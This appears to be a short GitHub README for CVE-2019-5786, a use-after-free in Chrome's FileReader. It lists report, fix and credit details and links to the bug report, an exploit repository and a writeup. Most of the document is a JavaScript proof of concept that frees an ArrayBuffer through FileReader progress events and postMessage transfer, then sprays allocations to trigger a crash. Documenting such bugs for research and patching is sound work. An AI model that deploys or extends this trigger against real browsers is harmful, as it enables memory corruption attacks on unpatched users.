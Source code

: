 # CVE-2019-5786
- Report: Feb 27, 2019
- Fix: Mar 7, 2019
- Credit:  Clement Lecigne of Google's Threat Analysis Group
  
# Poc
```js
<script>
function x() {
    var a = [];
    a.push(new ArrayBuffer(8));

    function s(e, t) {
        let i = new FileReader;
        let a = 0;
        let r = false;
        i.onloadstart = function() {};
        i.onprogress = function(e) {
            a += 1;
            if (r) return;
            if (e.loaded != e.total) return;
            try {
                t(this.result, this.result);
                r = true
            } catch (e) {}
        };
        i.onload = function() {
            if (r) return;
            a = 0;
            this.readAsArrayBuffer(new Blob([e]))
        };
        i.readAsArrayBuffer(new Blob([e]))
    }
    u();

    function u(i) {
        let l = new ArrayBuffer(4);
        let g = undefined;
        let f = undefined;
        s(l, function(l, s) {
            try {
                window.postMessage([l], "J", [l])
            } catch (e) {}
            let c = new Uint8Array(s);
            g = s;
            v(g);

            function v(l) {
                // l is freed?
                let s = new Uint32Array(l);
                s[0] = 1048576;
                let z = 0;
                do {
                    a.push(new ArrayBuffer(4));
                    z++;
                    if (z > 50) { // fail?
                        return
                    }
                } while (s[0] != 0);
                f = new Uint32Array(new ArrayBuffer(4)); // trigger crash
                return
            }
        })
    }
}
x();
</script>
```
# Reference
- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=936448)
- [Exploit](https://github.com/exodusintel/CVE-2019-5786)
- [Writeup](https://blog.exodusintel.com/2019/03/20/cve-2019-5786-analysis-and-exploitation/)